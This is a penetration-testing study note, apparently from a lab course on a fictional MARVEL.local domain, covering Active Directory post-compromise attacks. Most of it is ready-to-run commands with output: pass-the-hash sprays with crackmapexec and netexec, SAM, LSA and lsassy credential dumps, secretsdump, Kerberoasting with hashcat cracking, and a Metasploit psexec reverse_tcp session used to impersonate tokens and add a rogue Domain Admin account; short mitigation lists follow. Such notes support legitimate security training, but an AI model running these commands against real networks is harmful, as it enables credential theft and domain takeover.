



# AD - Post-Compromise Attacks

## Pass the Hash

### crackmapexec

> 📌 Some commands could not be working since CrackMapExec is no longer mantained -> Jump to [NetExec](#netexec) for working commands

➡️ [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) - post-exploitation tool that helps automate assessing the security of large Active Directory networks

- [CrackMapExec Cheat Sheet 2024 (Commands & Examples) - Stationx](https://www.stationx.net/crackmapexec-cheat-sheet/)

**Pass the Password**

```bash
crackmapexec smb 192.168.31.0/24 -u fcastle -d MARVEL.local -p Password1
```



**Pass the Hash**

- Use the `administrator` user's hash from the SAM dump

```bash
# NTLMv1 necessary
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```



```bash
# Dump the SAM
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam

# Enumerate shares (not connected to)
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares

# Dump LSA secrets
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --lsa
```



```bash
# Use modules
crackmapexec smb -L

crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy
```

```bash
# Check CME DB
cmedb

hosts
creds
export creds detailed cme_creds
```

### netexec

➡️ [netexec](https://github.com/Pennyw0rth/NetExec)

```bash
sudo apt install pipx git
pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExec
```

```bash
netexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy

# LSASSY 192.168.31.93 445 THEPUNISHER MARVEL\Administrator 920ae267e048417fcfe00f49ecbd4b33
```


### secretsdump.py

➡️ [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) from `impacket`

**e.g.** of lateral movement Hash Attack

- LLMNR -> `fcastle` hash -> cracked -> sprayed the password -> new login found -> secretsdump logins -> local admin hashes -> respray the network with local accounts

```bash
# Password attack
secretsdump.py MARVEL.local/fcastle:'Password1'@spiderman.MARVEL.local
secretsdump.py MARVEL.local/fcastle:'Password1'@thepunisher.MARVEL.local

# Hash attack
secretsdump.py administrator:@spiderman.MARVEL.local -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

```bash
# Check for hashes and clear text passwords (e.g. wdigest)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2024-07-15 21:58:30)
MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f: (2024-07-28 18:56:22)
MARVEL.LOCAL/pparker:$DCC2$10240#pparker#9f28ff35b303d014c9e85e35ab47d019: (2024-07-28 19:01:19)
```

- **e.g.** Cracking NTLMv1

```bash
echo '7facdc498ed1680c4fd1448319a8c04f' > ntlm.txt

hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt

	7facdc498ed1680c4fd1448319a8c04f:Password1!
```

---

## Kerberoasting

**Kerberoasting** is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a **SPN** (Service Principal Name), focusing on the acquisition of **TGS** (Ticket Granting Server) tickets issued by the KDC (Key Distribution Center).

### GetUserSPNs.py

➡️ [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) from `impacket`

```bash
sudo GetUserSPNs.py MARVEL.local/fcastle:'Password1' -dc-ip 192.168.31.90 -request
```

```bash
ServicePrincipalName	Name	MemberOf	PasswordLastSet	LastLogon	Delegation 
HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2024-07-15 23:38:40.092417  2024-07-28 20:48:12.180307

[-] CCache file is not found. Skipping...

$krb5tgs$23$*SQLService$MARVEL.LOCAL$MARVEL.local/SQLService*$4dd81eff0870ad344d1eee4aa64e2e7e$da960962a4ecb4aaf3b2b8835173e251537d78af30ac1ed2c464d7983d1a450f51b3d1eb7031adfd93c2b446e46a32d4d3632e6669bb85b1b25ed8ef32a37a54f272616555d3b6dacdb318e018dbf3a6bac8a4254c4c4e43a267abdbbd5ba6710cabad6129db8d723c8c6fbd27e15be1668102e94697fb0ca0bf66fe1b93cc1feec8c00df5338732a7f3e6a7c7a0ba2995af0dcc955a138f1c69d5458908c8f390c4b68d7aa20e2d24dbf3c2615798cf3283faf909cace72e9ccbe74ca5b7b165b55a28141ef3925709ba388af36067bd99e832fa7dc40ae623a8073ad1a7d678037b9f91922301b9313767e92e736996157368e20d67f27964fb2a4336c4234c246ef61945c18d64b5f49638d10b7229ee8fa66bd13f622f8e6a84992b1df1f675e8232df18e39c1b7b9e89e4dd99299ef40eee80c11c32a656c4ce185896c79a51df419d1cf97781cbedbd7048df16db20bc5029e4ad50f69eb067a09eccb93d5ee6f5c539579c7d7120f67a8f92557acd06474ca664b35dbc65f58ff9778370b9aa454298ec8b1c46f16beabe75593a7d370aeb8522eaa21c5b38c46a4c91af4a7b51c91817b4b28bfa3d013bbc46a153d1bc88e025f51bbe641efd0c5c873ff73edc2a89de3a38c3ad80e048bbf901840a4a28affda8bfd10c1a31f4794ae73352c0d8f95a47516079bd45ab16078b27cb7df3a8022aa0e73671b10ebadf0cd1e32ba6225a64122e624305902e7491d422068fe763aa3b53ceba5d4a3a27eaa9e51ed5778301b4804d5525d24516940664701d17f728ae8e039ad6ceda1324e1bd3e18bdc401bf7507705b39c9aedc2389ef50616a2330b00cdb6d6babbc6cbf207cd28b2886e1b9d668b1197ad7b34cc9cc03fb71a7e336a51226062c02ec591085b5dd6ce483799618f139afeb5cc60294f76d632a5344508dc6c133e8a991bb53a84462d0daea9d2b8404306d6cccfde7f5b56c7729c0bf11b0c100998843884efdad3c81e475abab92636a78cc82cf01eabb6f7735cdcdf03344f11b273f07cd2cec194ad238b6f4169c0d13b6c83b1aa91d2137217b583880385d417a24e8cce7dcc0b8d458a1aeeb297a53fae905b332fa1075fe58efc59d7264dbcdae81dad3674790b885e1e093234dbfb22c66f9b44aa19bb7af8d99a1d1b7a70e46fed3fe86d0b703b30037af5c15ca47c8bbc9a3685c4b873e2e22c325f790e9c533540be1bbbb155f68afe4f44646eacf98df3f2cb3e237767f451e700ea540ad3a5c2d14b9dd38b2470a087dfcae87b62e877139da7be443a41e910335d9ab65034d1431f0278135f51d8107a0d3c3ad7776d6ee97a3e9527c6f6e9e52893663e524dcb58ef5242f1a2d9b074a081946e554f416b0e7ba0cd43c666bef7b7af1a542ce0fc8f97028c6cd29cf3cb30d98e3ba8fd0d4fcc26141c8
```

- **e.g.** Cracking the `$krb5tgs$23$*` (RC4 encryption) hash

```bash
nano krb.txt
# paste the entire $krb5tgs$23$* hash

hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt

	MYpassword123#
	# Password of the SQLService account
```

For mitigation:

- least privilege - do not run Service Accounts as Domain Admin
- strong password

---

## Token Impersonation

Tokens are temporary keys that provide access to a system or network without needing to repeatedly input credentials, similar to how cookies work.

- **Delegate** - created for logging into machine or Remote Desktop
- **Impersonate** - non-interactive

Turn on `THEPUNISHER` (`192.168.31.93`) and `HYDRA-DC` (`192.168.31.90`) VMs, and login to `THEPUNISHER`.

```bash
msfconsole

use exploit/windows/smb/psexec

set payload windows/x64/meterpreter/reverse_tcp
set rhosts 192.168.31.93
set smbdomain MARVEL.local
set smbuser fcastle
set smbpass Password1
show targets # proceed with Automatic

run

# meterpreter - load addon
load incognito

# List available tokens
list_tokens -u

    Delegation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    Font Driver Host\UMFD-2
    MARVEL\Administrator
    MARVEL\fcastle
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1
    Window Manager\DWM-2

    Impersonation Tokens Available
    ========================================
    No tokens available

# Impersonate token
impersonate_token marvel\\fcastle

# Check impersonated user
shell
whoami
# Add another Domain Admin user
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN

# Revert to original token
rev2self
```

- Dump the secrets from the controller using `hawkeye` user

```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@hydra-dc.MARVEL.local
```

For mitigation:

- limit user/group token creation permission
- account tiering
- local admin restriction

---

